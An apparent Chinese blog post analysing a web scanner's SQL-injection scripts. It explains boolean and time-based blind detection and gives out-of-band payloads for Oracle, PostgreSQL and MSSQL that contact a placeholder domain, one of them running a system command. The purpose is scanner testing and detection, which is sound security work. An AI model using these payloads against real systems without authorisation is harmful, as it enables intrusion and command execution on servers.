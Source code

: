 这样匹配的话，还是比较准确的，但是有的时候会有误报。

**2.盲注入\(Blind\_Sql\_Injection.script\)**

2.1 bool型的盲注入

我把这部分的扫描逻辑理了一下，大概是这样的：

1. 判断参数是不是有效的，即：输入和原来的值不一样的参数时候，页面\(过滤过的，过滤了html标签，当前输入值，原始输入值\)是否一样
2. 如果参数有效，就用 and payload 判断是不是存在漏洞\(多个判断\)
3. 如果参数无效，就用 or payload 判断是不是存在漏洞\(多个判断\)

我参考以后，发现它会有一些漏扫描，比如 数字型等带有单引号的注入。

然后我决定优化一下，并去掉第三步的验证。因为一般都无有效参数的，无效的参数一般不做检查了，而且or注入可能会导致一些误报等。

2.2 基于时间盲注入

原理很简单，然后数据库去sleep一段时间。payload对应脚本里面找，或者可以参考一下sqlmap的。

然后就是注意各种闭合，比如: ', ", \), \)\), '\), "\), '\)\), "\)\), ;, 等等

个人的实践告诉我，基于时间的注入检查是最准确的。如果你是甲方的话，基于时间盲注入应该是最适合你的了。因为你可以去监控mysql的慢日志或者异常日志去查询sleep登关键字来结合着一起发现sql注入漏洞，我在实践中是有用这种方法发现过一些比较隐蔽的sql注入的。

**3.结合AcuMonitor盲打**

测试oracle的注入:

```text
xxxx||UTL_INADDR.get_host_address('{DOMAIN}')
```

PostgreSQL:

```text
{ORIGVALUE};copy (select '') to program 'nslookup {DOMAIN}
```

windows +mssql:

```text
{ORIGVALUE};EXEC master..xp_dirtree '\\{DOMAIN}\' -- 
```

同样，也要注意各种闭合。

**6.xxe 优化**

xxe漏洞检测，改变Content-type头（text/xml，application/xml），可能会测出漏洞。

更多脚本还在分析 .......




